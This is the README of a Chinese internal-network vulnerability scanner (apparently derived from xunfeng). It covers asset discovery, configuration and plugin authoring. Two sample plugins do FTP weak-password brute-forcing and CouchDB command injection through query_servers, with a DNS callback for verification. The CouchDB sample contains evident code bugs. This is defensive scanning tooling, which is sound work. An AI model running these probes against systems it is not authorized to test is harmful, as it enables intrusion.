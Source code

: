 # PVS漏洞扫描 [![License](https://img.shields.io/aur/license/yaourt.svg)](https://github.com/ysrc/xunfeng/blob/master/LICENSE)
----------

**PVS漏洞扫描**是一款适用于企业内网的`漏洞快速应急、巡航扫描`系统，通过搜索功能可清晰的了解内部网络资产分布情况，并且可指定漏洞插件对搜索结果进行快速漏洞检测并输出结果报表。

**本软件只做初步探测，无攻击性行为。请使用者遵守《[中华人民共和国网络安全法](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)》，勿将漏洞扫描用于非授权的测试，YSRC/同程安全应急响应中心/同程网络科技股份有限公司不负任何连带法律责任。**

其主体分为两部分：`网络资产识别引擎`，`漏洞检测引擎`。

网络资产识别引擎会通过用户配置的IP范围`定期自动`的进行端口探测（支持调用MASSCAN），并进行指纹识别，识别内容包括：服务类型、组件容器、脚本语言、CMS。

漏洞检测引擎会根据用户指定的`任务规则`进行定期或者一次性的漏洞检测，其支持2种插件类型、标示符与脚本，均可通过web控制台进行添加。


## 安装指南

[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/) 
[![Mongodb 3.4.0](https://img.shields.io/badge/mongodb-3.4.0-blue.svg)](https://www.mongodb.com/download-center?jmp=nav)


* [安装指南](./docs/install/INSTALL.md)

## 配置指南
- 在配置-爬虫引擎-网络资产探测列表 设置内网IP段**（必须配置，否则无法正常使用,每个IP段最大限制为10个B段）**。
- 在配置-爬虫引擎-资产探测周期 设置计划规则。
- 可启用MASSCAN(探测范围为全端口)代替默认的端口探测脚本，需安装好MASSCAN后配置**程序完整绝对路径**，点击开启即可完成切换。
  MASSCAN需chmod +x 给执行权限，并手动执行确保可正常运行后再开启。
- 其他配置根据自身需要进行修改。

## 插件编写
漏洞插件支持2种类型，json标示与python脚本，可以通过官方推送渠道安装或者自行添加。

**JSON标示符**

![](https://ysrc.github.io/static/img/xunfeng-json-plugin.png)

**Python脚本**

插件标准非常简洁，只需通过 `get_plugin_info` 方法定义插件信息，`check`函数检测漏洞即可。

```python
# coding:utf-8

import ftplib

def get_plugin_info():  # 插件描述信息
    plugin_info = {
        "name": "FTP弱口令",
        "info": "导致敏感信息泄露，严重情况可导致服务器被入侵控制。",
        "level": "高危",
        "type": "弱口令",
        "author": "wolf@YSRC",
        "url": "",
        "keyword": "server:ftp",  # 推荐搜索关键字
    }
    return plugin_info

def check(ip, port, timeout): # 漏洞检测代码
    user_list = ['ftp', 'www', 'admin', 'root', 'db', 'wwwroot', 'data', 'web']
    for user in user_list:
        for pass_ in PASSWORD_DIC:  # 密码字典无需定义，程序会自动为其赋值。
            pass_ = str(pass_.replace('{user}', user))
            try:
                ftp = ftplib.FTP()
                ftp.timeout = timeout
                ftp.connect(ip, port)
                ftp.login(user, pass_)
                if pass_ == '': pass_ = 'null'
                if user == 'ftp' and pass_ == 'ftp': return u"可匿名登录"
                return u"存在弱口令，账号：%s，密码：%s" % (user, pass_)  # 成功返回结果，内容显示在扫描结果页面。
            except:
                pass
```

此外系统内嵌了辅助验证功能:

> DNS：触发，nslookup randomstr IP，验证， http://ip:8088/randomstr ，返回YES即存在。

> HTTP：触发，http://ip:8088/add/randomstr ，验证， http://ip:8088/check/randomstr ，返回YES即存在。

使用例子:

```python
import urllib2
import random
import socket

def get_plugin_info():  # 插件描述信息
    plugin_info = {
            "name": "CouchDB未授权访问",
            "info": "导致敏感信息泄露，攻击者可通过控制面板执行系统命令，导致服务器被入侵。",
            "level": "高危",
            "type": "未授权访问",
            "author": "wolf@YSRC",
            "url": "",
            "keyword": "server:couchdb",  # 推荐搜索关键字
    }

def get_ver_ip(ip):
    csock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    csock.connect((ip, 80))
    (addr, port) = csock.getsockname()
    csock.close()
    return addr

def random_str(len):
    str1=""
    for i in range(len):
        str1+=(random.choice("ABCDEFGH1234567890"))
    return str(str1)

def check(ip,port,timeout):
    rand_str = random_str(8)
    cmd = random_str(4)
    server_ip = get_ver_ip()
    req_list = [
        ["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
        ["/vultest123",''],
        ["/vultest123/test",'{"_id":"safetest"}']
    ]
    for req_info in req_list:
        try:
            request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
            request.get_method = lambda: 'PUT'
            urllib2.urlopen(request)
        except:
            pass
    try:
        req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
        req_exec.add_header("Content-Type","application/json")
        urllib2.urlopen(req_exec)
    except:
        pass
    check = urllib2.urlopen("http://%s:8088/%s"%(server_ip,rand_str)).read()
    if 'YES' in check:
        return u"未授权访问"
```

## 流程演示视频

[![](https://ysrc.github.io/static/img/intro.png)](https://ysrc.github.io/static/video/xunfeng.mp4)


## 文件结构

    │  config.py  # 配置文件
    │  README.md  # 说明文档
    │  run.bat  # Windows启动服务
    │  run.sh    # Linux启动服务，重新启动前需把进程先结束掉
    │
    ├─aider
    │      aider.py  # 辅助验证脚本
    │
    ├─db  # 初始数据库结构
    │
    ├─masscan  # 内置编译好的Masscan程序（CentOS win64适用），需要chmod+x给执行权限（root），若无法使用请自行编译安装。
    ├─nascan
    │  │  nascan.py # 网络资产信息抓取
    │  │
    │  ├─lib
    │  │      common.py 其他方法
    │  │      icmp.py  # ICMP发送类
    │  │      log.py  # 日志输出
    │  │      mongo.py  # 数据库连接
    │  │      scan.py  # 扫描与识别
    │  │      start.py  # 线程控制
    │  │
    │  └─plugin
    │          masscan.py  # 调用Masscan脚本
    │
    ├─views
    │  │  web.py  # web启动
    │  │  view.py  # web请求处理
    │  │
    │  ├─lib
    │  │      Conn.py  # 数据库公共类
    │  │      CreateExcel.py  # 表格处理
    │  │      Login.py  # 权限验证
    │  │      QueryLogic.py  # 查询语句解析
    │  │
    │  ├─static #静态资源目录
    │  │
    │  └─templates #模板文件目录
    │
    └─vulscan
        │  vulscan.py  # 漏洞检测进程
        │
        └─vuldb # 漏洞库目录


